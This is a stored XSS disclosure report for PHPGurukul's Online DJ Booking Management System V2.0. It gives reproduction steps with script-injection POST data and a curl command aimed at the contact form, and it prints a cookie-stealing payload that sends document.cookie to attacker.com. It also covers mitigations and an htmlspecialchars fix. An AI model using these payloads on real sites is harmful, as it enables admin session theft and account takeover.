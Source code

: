 # Stored Cross-Site Scripting (XSS) Vulnerability Report

## Affected Product:

| **Attribute**           | **Details**                                                                 |
|-------------------------|-----------------------------------------------------------------------------|
| **Vendor**              | PHPGurukul                                                                  |
| **Application Name**    | Online DJ Booking Management System                                         |
| **Version(s) Affected** | V2.0                                                                        |
| **Vulnerability**       | Stored Cross-Site Scripting (XSS)                                           |
| **Affected Path**       | `/admin/view-user-queries.php`                                              |
| **Affected File(s)**    | `odms/admin/view-user-queries.php`                                          |

🔗 **Official Website:**  
[PHPGurukul - Online DJ Booking Management System - Project Source Code](https://phpgurukul.com/online-dj-booking-management-system-using-php-and-mysql/)

---

## ⚠️ Vulnerability Overview:

Stored Cross-Site Scripting (Stored XSS) is a security vulnerability where malicious scripts are permanently stored on the server (e.g., in a database). When another user often an administrator views the stored data, the script is executed in their browser.

In this case, **anyone can submit a contact us query form** through input fields. Since the inputs are **not sanitized or escaped**, an attacker can inject a malicious script into the request (e.g., `<script>alert('document.domain')</script>`). When an admin opens that query in the dashboard, the script executes in their browser, potentially leading to:

- Cookie theft  
- Session hijacking  
- Unwanted actions performed on behalf of the admin  

---

## Steps to Reproduce:

> ⚠️ **Note:** I downloaded the project source and hosted it on my Virtual Private Server (VPS) and located it on my domain name: `pentest1.blackm4c.xyz`.

1. **Open the Contact Us page and fill the form:**

    ```
    https://domain.com/contact.php
    ```

    ![Contact Us page](./images/support_page.png)

2. **Submit the form with XSS payloads using Burp Suite or browser developer tools.**  
   Payloads can be injected into:

    - Name  
    - Email  
    - Message  

    ![Burp Suite Repeater](./images/burp.png)

    Example POST payload:
    ```
    name=<script>alert("from+name+field")</script>&email=<script>alert("from+email+field")</script>&mobnum=123456789&message=<script>alert("from+message+field")</script>&submit=Submit
    ```

    Example `curl` command:
    ```bash
    curl -k -X POST 'https://domain.com/contact.php' \
    -b 'PHPSESSID=e9tr282kpesjphiav73rn8osm3' \
    --data 'name=<script>alert("from name")</script>&email=<script>alert("from email")</script>&mobnum=123456789&message=<script>alert("from message")</script>&submit=Submit'
    ```

3. **Log in to the admin account and navigate to the new Unread Queries:**

    Sidebar → **DASHBOARD** → **Total Unread Queries**

    ```
    https://domain.com/admin/unread-queries.php
    ```

    ![Dashboard page](./images/nav.png)

    After locating the infected query, click the **View** button:

    ![Query list](./images/nav2.png)  
    ![XSS trigger](./images/xss1.png)  
    ![XSS trigger](./images/xss2.png)  
    ![XSS trigger](./images/xss3.png)

    Demonstration of HTML injection:
    ![HTML trigger](./images/finalxss.png)

4. **Viewed queries are moved to the 'Total Read Queries' section:**

    Sidebar → **DASHBOARD** → **Total Read Queries**

    ![Navigation](./images/readmsg.png)

    Clicking again triggers the payload:

    ![XSS trigger](./images/readmsglist.png)

    The XSS payloads will execute via JavaScript `alert()` pop-ups for each infected field.

---

## Impact of Stored XSS

- An authenticated user can submit a query with malicious JavaScript in a form field.
- The input is **not sanitized or escaped**, and is stored in the backend (Database).
- When the **admin views the query**, the script executes in the admin's browser.
- This can lead to **admin account takeover** by stealing session cookies using payloads like:

    ```html
    <script>fetch('https://attacker.com?c=' + document.cookie)</script>
    ```

- The attacker can impersonate the admin and gain full system access.

---

## ✅ Recommended Mitigations

The developer implemented `htmlspecialchars()` in some parts of the system, but missed doing so in `view-user-queries.php`.

- **Input Sanitization:**  
  Strip or escape HTML/JavaScript tags from user inputs before storing.

- **Output Encoding:**  
  Encode output data before rendering (e.g., use `htmlspecialchars()`).

- **Use Templating Engines That Auto-Escape Output:**
  - **Twig:** `{{ name }}` auto-escapes
  - **Blade (Laravel):** `{{ $name }}` auto-escapes

- **Content Security Policy (CSP):**  
  Add a strict CSP header to limit script execution.

- **HTTPOnly Cookies:**  
  Mark session cookies with `HttpOnly` to prevent JavaScript access.

- **Input Validation:**  
  Validate data format, type, and length on all user inputs.

---

## Code Fix

Ensure all echoed data is escaped:

```php
<!-- Before (vulnerable) -->
<td><?php echo $row['name']; ?></td>

<!-- After (secure) -->
<td><?php echo htmlspecialchars($row['name'], ENT_QUOTES, 'UTF-8'); ?></td>
```
Apply this change to all user-generated data displayed in view-user-queries.php.

## 📚 References

- [CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')](https://cwe.mitre.org/data/definitions/79.html)
- [CWE-614: Sensitive Cookie in HTTPS Session Without 'Secure' Attribute](https://cwe.mitre.org/data/definitions/614.html)
- [PortSwigger – Stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored)  
- [OWASP – Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)  
- [OWASP – XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)